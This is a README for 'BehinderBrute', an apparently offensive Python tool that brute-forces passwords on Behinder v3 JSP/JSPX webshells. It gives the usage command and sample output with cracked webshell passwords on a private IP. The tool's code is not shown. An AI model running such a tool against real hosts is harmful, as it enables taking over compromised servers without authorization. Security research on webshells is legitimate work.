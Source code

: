 
# BehinderBrute

## 使用

> 支持Behinder3，仅使用Behinder_v3.0.11_t00ls进行测试。
> 仅支持 JSP/JSPX 木马

``` text
$ python3 behinder3_brute.py -h

 _________________________
< Behinder Webshell Brute >
 -------------------------
        \   ^__^
         \  (oo)\_______             @Author: Arm!tage
            (__)\       )\/\        @Version: v1.0.0
                ||----w |
                ||     ||

Usage:
    python3 behinder3_brute.py <WebShell_File> <Password_File>

$ python3 behinder3_brute.py urls.txt passwords.txt
[+] http://192.168.53.227:8080/behinder/ Password: rebeyond
[+] http://192.168.53.227:8080/admin_shell/admin_shell.jsp Password: admin

```

## Reference

- [Bhinder3 Protocol](https://arrnitage.github.io/Behinder3-Protocol/)
